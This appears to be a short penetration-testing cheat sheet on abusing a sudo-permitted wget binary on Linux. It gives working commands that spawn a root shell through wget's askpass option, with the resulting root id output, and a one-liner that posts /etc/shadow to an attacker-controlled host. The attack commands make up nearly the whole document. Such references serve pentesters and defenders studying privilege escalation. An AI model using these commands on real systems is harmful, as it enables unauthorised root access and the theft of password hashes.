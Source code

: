 # Wget

## Spawn Shell

```
user@debian:~$ TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/bash\n/bin/bash 1>&0' > $TF
sudo wget --use-askpass=$TF 0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Harvest Credentials

Send file to web server.

```
user@debian:~$ sudo wget --no-hsts --post-file=/etc/shadow <attacker_IP>
```

---
## References

### Hacking Articles

- [Hacking Articles: Wget Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)